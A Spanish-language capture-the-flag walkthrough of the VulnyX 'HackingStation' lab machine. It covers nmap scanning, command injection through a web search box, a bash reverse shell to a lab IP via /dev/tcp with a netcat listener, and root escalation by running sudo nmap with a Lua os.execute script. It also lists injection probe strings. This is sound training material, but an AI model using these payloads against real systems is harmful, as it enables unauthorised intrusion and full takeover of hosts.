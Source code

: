 # WRITEUP - HACKINGSTATTION - VULNYX #
![image](https://github.com/Koh4kU/Writeups/assets/82893511/34eb39b4-93b9-49b7-b8e5-30dc668567f9)
### Recon/Scanning network: ###
Empezamos identificando el activo víctima a explotar dentro de nuestra red con un reconocimiento completo de ella:
```shell
$ netdiscover -r 10.0.2.0/24
```
~~Meter imagen del resultado~~  
Identificamos la ip de nuestra víctima, ahora podemos empezar a escanear el activo para identificar posibles vectores de entrada.  
Ejecutamos un escaneo con nmap en el que escaneamos todos los 65535 puertos (-p-), que nos identifique todos aquellos puertos abiertos (--open), con un ratio mínimo de 5000 paquetes por segundo (--min-rate 5000), sin resolución DNS (-n) y sin host discovery (-Pn). [First scan](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/HackingStation/nmap/first-scan).
```console
$ nmap -p- --open --min-rate 5000 -n -Pn 10.0.2.6
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00059s latency).
Not shown: 44294 closed tcp ports (reset), 21240 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

# Nmap done at Thu Apr 18 13:31:48 2024 -- 1 IP address (1 host up) scanned in 18.70 seconds
```
Observamos que solo existe un puerto abierto con el escaneo realizado, por lo que vamos a ejecutar un escaneo sobre servicios y con unos scripts por defecto para el análisis. [Scan services](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/HackingStation/nmap/scan-services).
```shell
$ nmap -p80 -sVC 10.0.2.6 
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00069s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 13:33:06 2024 -- 1 IP address (1 host up) scanned in 6.94 seconds
```
### Enumeration ###
Como podemos comprobar, tiene un servicio HTTP con un apache 2.4.57, el cuál si buscamos un poco de información, podemos ver que está relacionado con el CVE-2023-31122, el cuál nos permite ejecutar un RCE (Remote Command Execution), no indagaremos más por ahora sobre está vulnerabilidad pero está bien tenerla en mente.  
Teniendo este servicio web, podemos dejar un dirbuster ejecutando mientras nosotros analizamos de forma manual el servicio web. [Dirbuster](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/HackingStation/enumeration/dirbuster_80).
```shell
$ dirb http://10.0.2.6:80
```
Dejamos la ejecución de dirbuster corriendo y mientras vamos a echar un vistazo al servicio web. Al entrar con el navegador, podemos ver la página principal. Este servicio web parece tener la funcionalidad de ser un repositorio de exploits en el que se pueden buscar mediante el cuadro de texto abajo. Al ver este cuadro de texto habilitado, podemos empezar a probar cualquier Injección de Comandos para ver si es vulnerable o no.   
~~Imagen página web~~  
### Exploitation ###
Antes de empezar a inyectar comandos, podemos buscar por ejemplo qué vulnerabilidades tiene apache 2.4.57 y ver el funcionamiento del servicio.  
~~Imagen búsqueda apache~~  
Identificamos que el servicio ejecuta un archivo php para hacer la búsqueda llamado queryExploit.php. Gracias a esto, ya sabemos que el servicio web usa por debajo php y nos sirve para hacer inyecciones en php o relacionado. Podemos probar a ejecutar dentro del cuadro de búsqueda de la página principal comandos como:
- PHP:
	- ";exec("ls")
 	- ';exec("ls")
  	- ");exec("ls")
  	- ');exec("ls")
- SQL:
	- '; select * --
- JS:
	- ;alert("Hacked")
 	- ";alert("Hacked")
  	- ';alert("Hacked")
  	- ");alert("Hacked")
  	- ');alert("hacked")

Pero ninguno de estos intentos nos va a funcionar. Si analizamos un poco la respuesta del servidor, observamos que nos referencia un path en el que se encuentra el posible repositorio en el que se apoya el servicio web, siendo este path: */opt/snap/core22/searchsploit/298/*. Esto nos puede dar una pista de que el comando que se está ejecutando al buscar el exploit dentro del repositorio, es un comando de sistema y al saber que estamos aparentemente ante un sistema Debian (Linux) por el escaneo de servicios realizado anteriormete, podemos probar a ejecutar comandos de sistema. Por ejemplo vamos a ejecutar un *whoami* para ver si esto es posible:  
~~Imagen búsqueda~~  
Al ejecutar esto, vemos que al final de la página, nos devuelve "hacker". Podemos confirmar que este es el método que está utilizando el servicio por dentro y acabamos de ejecutar un comando de forma remota en el sistema.  
~~Imagen resultado~~
### Gaining access ###
Una vez comprobado esto, vamos a enviarnos una reverse shell para conseguir conectarnos con una terminal y poder seguir con la intrusión de forma más sencilla y cómoda. Para esto dejamos nuestra máquina a la escucha por un puerto aleatorio, por ejemplo, 443, a la espera de una conexión.
```shell
$ nc -nlvp 443
```
Mientras, hacemos una búsqueda ejecutando una reverse shell sobre el servicio web con: *;bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'* y ejecutamos.  
Acabamos de recibir una shell con el usuario hacker sobre la máquina víctima.  
~~Imagen intrusion~~  
Tenemos una shell, pero debemos realizar un tratamiento adecuado de la shell para que nos resulte más cómodo:
```shell
$ script /dev/null -c bash
$ ctrl+z
$ stty raw -echo;fg
$ reset xterm
$ export TERM=xterm
$ export SHELL=bash
```
Recibimos una shell tratada. Una vez hecho esto, podemos buscar la flag del usuario hacker, la cual estará en su directorio home: */home/hacker/user.txt*.  
~~imagen user flag~~
### Privilege escalation ###
Una vez tenemos el accesso con un usuario sin privilegios aparentes, toca escalar a root para obtener el control total de la máquina. Empezamos visualizando los permisos propios del usuario, sus grupos, si tiene un crontab asociado y posibles archivos con permisos SUID/GUID que nos permitan escalar, pero no vemos nada aparentemente. Vamos a listar si el usuario tiene algún permiso a nivel de *sudo* y vemos que puede ejecutar como root un binario */usr/bin/nmap*.  
```shell
$ sudo -l
```
~~Imagen captura sudo -l~~  
Probamos a ejecutar el comando y vemos que tiene un funcionamiento como nmap. Podemos de hecho, realizar un escaneo a localhost y poder ver servicios levantados solo de forma interna.  
```shell
$ sudo nmap 127.0.0.1
```
~~nmap 127.0.0.1~~  
Observamos que nos aparece ssh abierto. Este servicio aunque salga abierto, no es accesible de forma externa a la máquina, tal y como vimos en los primeros escaneos realizados de forma remota. Esto simplemente es una curiosidad, no nos ayudará a escalar o comprometer más la máquina.  
Si recordamos, nmap se puede implementar con scripts, por lo que podemos intentar ejecutar algún script propio mediante nmap y que nos devuelva una shell como root. Esto debido a que como podemos ejecutar nmap como root, si conseguimos que nmap ejecute una shell mediante un script, nos devolverá una shell con el usuario que ejecuta nmap, root. Haciendo una búsqueda para ver cómo crear scripts *.lua* propios y ejecutarlos con nmap, nos topamos con una web llamada **GTFOBins**, la cual es un repositorio de diferentes binarios a ejecutar en entornos en los que haya pocos recursos.  
~~Imagen GFTObins~~  
Tenemos una entrada para nmap y bajando, encontramos una sección para ejecutar una shell mediante nmap. Hay dos formas:
- nmap --interactive: Solo entre las versiones 2.02 a 5.21.
- *Input echo is disabled*:
Debido a que nuestra versión es 7.x, nos queda probar la segunda opción. Esta opción consiste en crear un temporal que contenga la sentencia *os.execute()* que nos permite ejecutar comandos del sistema, de esta forma, podemos intentar ejecutar una shell. 
```shell
$ BASH=$(mktemp)
$ echo 'os.execute("/bin/bash")' > $BASH
$ sudo nmap --script=$BASH
```
~~Captura ejecución nmap con sudo y obtencion de root~~  
Hemos conseguido obtener una shell como root. Una vez hecho esto, tenemos completo control del sistema. Nos spawnea una shell en la que no nos aparece lo que escribimos, para recibir una shell en condiciones podríamos ejecutarnos una reverse shell y captarla como hemos hecho en pasos anteriores, activar de forma externa ssh y entrar mediante una clave pública... etc. Nosotros lo que vamos a obtener ahora es la flag de root, la cual se encuentra en */root/root.txt*.  
~~Imagen obtencion root.txt~~  
### Adicional ###
Si recordáis, en la parte de enumeración del activo, habíamos ejecutado un dirbuster el cual no nos ha hecho falta para poder comprometer el objetivo. De todas formas, este dirbuster nos identifica una ruta en el servicio web que nos lleva a una librerñia de jQuery. En principio, no he encontrado nada interesante en esa ruta: *http://10.0.2.6:80/javascript/jQwery/jQuery*.
